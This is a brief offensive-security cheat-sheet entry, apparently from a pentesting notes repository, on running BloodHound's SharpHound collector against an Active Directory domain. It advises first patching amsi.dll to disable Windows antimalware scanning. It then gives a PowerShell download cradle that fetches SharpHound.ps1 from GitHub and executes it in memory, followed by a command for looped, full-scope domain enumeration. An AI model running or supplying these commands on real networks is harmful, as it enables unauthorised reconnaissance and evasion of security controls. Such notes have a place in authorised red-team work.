 # Invoke-BloodHound
It is recommended to [patch amsi.dll](https://github.com/okazymyrov/piki/blob/master/PowerShell.md#patching-amsidll-amsiscanbuffer-by-rasta-mouse) first.
```powershell
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1')
Invoke-BloodHound -Domain <domain> -DomainController <ip> -CollectionMethod All -Loop -LoopInterval 00:05:00 -LoopDuration 04:00:00
```
